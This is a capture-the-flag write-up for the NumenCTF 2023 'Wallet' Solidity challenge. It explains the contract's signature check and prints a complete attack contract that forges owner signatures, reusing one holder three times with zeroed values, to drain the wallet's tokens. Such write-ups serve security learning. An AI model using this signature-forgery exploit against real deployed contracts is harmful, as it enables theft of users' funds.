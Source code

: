 # Wallet

## Introduction
Similiar to the previous contract, this contract focus on emptying the tokens in Wallet.

Here's the source code:  https://github.com/numencyber/NumenCTF_2023/blob/main/wallet/contracts/NumenWallet.sol 

## Code Breakdown

There are 2 contracts to look at Wallet and Verifier as well as 3 struct

###  Wallet

The key function to look at is **transferWithSign**. 

Here's a breakdown of the function.

- It takes in 3 parameters - recipent, amount and a struct(*SignedbyOwner*)
- Amount must be more than 0
- Recipent cannot be null
- 3 Signatures from wallet owners are required
- Will call the **verify** function from **Verifier** contract
- Wallet tokens will be transferred once verification is complete



### Verifier

There is only 1 function to look at **verify**

Here's a breakdown of the function.

- It accepts 3 parameters - recipent, amount and the array of signatures

### Structs

There are 3 structs to look at: *Holder*, *Signature* and *SignedByOwner*.

These structs are critical to solving the puzzle as they contain the parameters needed to construct fake signatures.


## Hints
You'll need to create a smart contract to do the following:

1) Create a *Holder* with wallet's owner address, random name, boolean and random reason

2) Create a *Signature* with random values

3) Store all 3 signatures into *SignedByOwner*

4) Transfer the tokens away by executing **transferWithSign** with the stored signature

## Solutions
If you following the hints above, you will arrive at the same/similiar conclusion as me.

Here's the solution:

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.15;

import './wallet.sol';

contract wallet_attack {

    Wallet public wallet;
    IERC20 immutable public token;

    constructor(Wallet _wallet, NC _nc){
        wallet = Wallet(_wallet);
        token = NC(_nc);
    }
    
    function fake_signature() public  {
        //Create a holder
        bytes memory _reason = new bytes(1);
        Holder memory _holder = Holder(address(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4), '0', true, _reason);

        //Create 32 bytes variable with a default value of 0
        bytes32 _rs1;
        bytes32 _rs2;

        //Create signature
        Signature memory _signature = Signature(1, [_rs1,_rs2]);
        
        //Sign by the same owner 3 times
        SignedByowner[] memory ss = new SignedByowner[](3);
        ss[0] = SignedByowner(_holder, _signature);
        ss[1] = SignedByowner(_holder, _signature);
        ss[2] = SignedByowner(_holder, _signature);


        wallet.transferWithSign(address(0xdD870fA1b7C4700F2BD7f44238821C26f7392148), token.balanceOf(address(wallet)), ss);

    }

    function getWalletbalance() public view returns (uint256){
        return token.balanceOf(address(wallet));
    }

}
```
